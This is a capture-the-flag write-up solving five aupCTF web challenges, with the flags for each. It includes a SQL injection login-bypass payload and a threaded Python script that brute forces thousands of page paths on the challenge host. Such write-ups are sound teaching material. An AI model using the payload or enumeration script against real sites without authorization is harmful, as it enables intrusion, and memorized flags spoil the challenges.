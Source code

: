 # Web challenges from aupCTF
- [Starter](#starter)
- [SQLi - 1](#sqli-1)
- [Header](#header)
- [Time Heist](#time-heist)
- [Directory](#Directory)

5/7 challenges solved

-----

## Starter

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/6582dbba-0cac-4bec-ad06-f4c37c2be3f1)

Link: [https://challs.aupctf.live/starter/](https://challs.aupctf.live/starter/)

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/30b5e614-f821-47e4-bd2a-712ce5ecb0bc)

Flag is randomly placed in the site. I removed all the CSS styling which made the flag.

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/7525456f-aaf6-4168-b69e-26c387eb5805)

Flag: `aupCTF{w45n't-th47-h4rd-r1gh7}`

-----

## SQLi-1

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/fbd66fca-dbce-4038-b462-49fc7228ba51)

Link: [https://challs.aupctf.live/sqli-1/](https://challs.aupctf.live/sqli-1/)

I tried base `admin` as username and `' or 1=1 ; --` as password.

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/10d62981-6ac8-49c8-9092-c15c3f18a3bf)

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/ed2890ca-a957-4e16-aa35-9507e52295e3)

Flag: `aupCTF{3a5y-sql-1nj3cti0n}`

-----
## Header

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/5dadbc34-0f33-45c2-9120-f6d13d8bbd2f)

Link: [https://challs.aupctf.live/header/](https://challs.aupctf.live/header/) 

Going to site shows some Django python code:

```py
def headar_easy(request):
    if request.META.get('HTTP_GETFLAG') == 'yes':
        context = {
            'flag': '[REDACTED]',
        }
        
        return render(request, 'aa/flag.html', context)
    
    return render(request, 'aa/index.html')
```

So I sent a request wih the header `GETFLAG` being `yes` using [POSTMAN](https://web.postman.co/)

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/f1fb6a9e-d168-44d0-b30d-50432909c9c8)

Flag: `aupCTF{cust0m-he4d3r-r3qu3st}`

-----

## Time-Heist

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/84e9f2ff-d17d-44de-80a9-869611a002a9)

Hint: try looking for a tag named flag

Link: [https://iasad.me/tags](https://iasad.me/tags)

I went to [Web archive](https://archive.org/) to find the possible tag named flag. There was one recently 
[https://web.archive.org/web/20230605190025/https://iasad.me/tags](https://web.archive.org/web/20230605190025/https://iasad.me/tags)

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/482e2153-9a2e-4ef2-9760-61ae56d1aa64)

Going to [https://web.archive.org/web/20230601061319/https://iasad.me/tags/flag/](https://web.archive.org/web/20230601061319/https://iasad.me/tags/flag/) and then to [https://web.archive.org/web/20230601045526/https://iasad.me/blogs/flag/](https://web.archive.org/web/20230601045526/https://iasad.me/blogs/flag/) and looking at source:

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/6659b5bf-bc26-4491-8edf-36e72a7d6ec1)

Flag: `aupCTF{y0u-ar3-4-tru3-t1m3-tr4v3l3r}`

-----

## Directory

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/f0d8d6c6-5cf9-4b67-b64d-228e087a2661)

Link: [https://challs.aupctf.live/dir/](https://challs.aupctf.live/dir/)

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/294945b8-7605-427e-9017-f9377594fd49)

The flag is in one of the 1000 links, I created a python script to brute force it using threading:

```py
import requests
import threading

url = "https://challs.aupctf.live/dir/page/"


def do(range_):
    for i in range(range_,range_+100):
        r = requests.get(url + str(i) + "/")
        if "No flag for you" not in r.text:
            print(i,r.text)


threads = []
for i in range(0, 10000, 100):
    t = threading.Thread(target=do, args=(i,))
    threads.append(t)
    t.start()
```

Within 2 seconds it got the flag at page 712:

```
712 <!DOCTYPE html>
<html>
<head>
    <title>You Found Me</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 0;
            padding: 0;
        }
        h1, h2{
            text-align: center;
            margin-top: 50px;
        }

    </style>
</head>
<body>
    <h1>Here is your flag, You deserve it</h1>
    <br>
    <h2>The flag is: aupCTF{d1r3ct0r13s-tr1v14l-fl4g}</h2>
</body>
</html>
```

Flag: `aupCTF{d1r3ct0r13s-tr1v14l-fl4g}`
